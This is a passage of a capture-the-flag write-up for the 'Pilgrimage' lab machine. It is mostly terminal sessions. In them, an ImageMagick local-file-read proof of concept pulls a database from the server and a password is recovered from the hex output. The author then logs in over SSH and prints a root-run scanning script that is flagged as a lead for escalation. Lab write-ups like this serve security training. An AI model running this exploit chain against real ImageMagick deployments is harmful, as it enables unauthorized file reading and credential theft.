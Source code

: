 └──╼ [★]$ sudo python3 generate.py -f "/var/db/pilgrimage" -o exploit2.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > exploit2.png


└──╼ [★]$ sudo wget http://pilgrimage.htb/shrunk/64a324799638f.png
--2023-07-03 20:41:58--  http://pilgrimage.htb/shrunk/64a324799638f.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.129.150.112
Connecting to pilgrimage.htb (pilgrimage.htb)|10.129.150.112|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1748 (1.7K) [image/png]
Saving to: ‘64a324799638f.png’

64a324799638f.png   100%[===================>]   1.71K  --.-KB/s    in 0s      

2023-07-03 20:41:58 (215 MB/s) - ‘64a324799638f.png’ saved [1748/1748]


└──╼ [★]$ exiftool 64a324799638f.png  -b
Warning: [minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers) - 64a324799638f.png
12.1664a324799638f.png.17482023:07:03 20:41:45+01:002023:07:03 20:41:58+01:002023:07:03 20:41:58+01:00644PNGPNGimage/png128128820002.20.31270.3290.640.330.30.60.150.06255 255 2552023:07:03 19:41:45


d02031915726f6775653170617373180103172d65
6d696c796162696763686f6e6b79626f693132330a000000020fec000ff70fec

Ð 1W&öwVS711rÖmilyabigchonkyboi123


a031901726f6775
65310208031709656d696c790d000000020f74000fba0f74

 1&öwe1	emily

└──╼ [★]$ ssh pilgrimage.htb -l emily
emily@pilgrimage.htb's password: 
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ 

```
emily@pilgrimage:~$ cat user.txt 
d0663dd014**********************
```

After running linpeas we find malwarescan.sh that looks suspicious.

```
emily@pilgrimage:/tmp$ cat  /usr/sbin/malwarescan.sh 
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
```